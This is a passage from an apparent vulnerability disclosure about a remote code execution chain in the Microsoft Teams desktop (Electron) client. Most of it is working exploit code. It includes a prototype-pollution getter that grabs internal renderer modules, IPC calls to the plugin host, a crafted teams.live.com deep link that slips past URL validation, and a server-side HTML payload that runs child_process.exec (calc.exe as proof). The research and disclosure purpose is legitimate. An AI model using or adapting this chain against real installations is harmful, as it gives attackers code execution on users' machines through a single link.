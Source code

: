 ```js
const KEY = './lib/renderer/api/web-frame.ts';
let modules;
Object.prototype.__defineGetter__(KEY, function () {
    console.log(this);
    modules = this;
    delete Object.prototype[KEY];
    main();
})
```

This enables attacker to get the `@electron/internal/renderer/api/ipc-renderer` module to send any IPCs to any processes.

```js
var ipc = modules['./lib/renderer/api/ipc-renderer.ts'].exports.default;
[_, pluginHost] = ipc.sendSync('calling:teams:ipc:initPluginHost', []);
```

We utilized this to send IPC to pluginHost (see Section 2), and execute a program outside the sandbox.


#Exploit

Client :  
`https://teams.live.com/l/task/1ded03cb-ece5-4e7c-9f73-61c375528078?url=https://0e1%252Ekr%5Ccd2c4753c4cb873c7be66e3ffdeae71f71ce33482e9921bab01dc3670a3b4f95%5C%23.office.com/&height=100&width=100&title=hey&fallbackURL=https://aka.ms/hey&completionBotId=&fqdn=teams.live.com`


Server :  
```html
<script>
  const KEY = './lib/renderer/api/web-frame.ts';
  let modules;
  Object.prototype.__defineGetter__(KEY, function () {
    console.log(this);
    modules = this;
    delete Object.prototype[KEY];
    main();
  })

  window.ELECTRON_ENABLE_SECURITY_WARNINGS = true;

  function main() {
    var ipc = modules['./lib/renderer/api/ipc-renderer.ts'].exports.default;
    [_, pluginHost] = ipc.sendSync('calling:teams:ipc:initPluginHost', []);
    msg = ipc.sendToRendererSync(pluginHost, 'ELECTRON_REMOTE_SERVER_REQUIRE', [{ hey: 1 }, 'slimcore'], '')[0]
    msg = ipc.sendToRendererSync(pluginHost, 'ELECTRON_REMOTE_SERVER_MEMBER_GET', [{ hey: 1 }, msg.id, 'constructor', []], '')[0]
    msg = ipc.sendToRendererSync(pluginHost, 'ELECTRON_REMOTE_SERVER_MEMBER_CALL', [{ hey: 1 }, msg.id, 'constructor', [{ type: 'value', value: 'var backup=String.prototype.replace; String.prototype.replace = ()=>"slimcore\');require(`child_process`).exec(`calc.exe`);(\'";' }]], '')[0]
    ipc.sendToRendererSync(pluginHost, 'ELECTRON_REMOTE_SERVER_FUNCTION_CALL', [{ hey: 1 }, msg.id, []], '')
    msg = ipc.sendToRendererSync(pluginHost, 'ELECTRON_REMOTE_SERVER_REQUIRE', [{ hey: 1 }, 'slimcore'], '')
  }
</script>
``` 
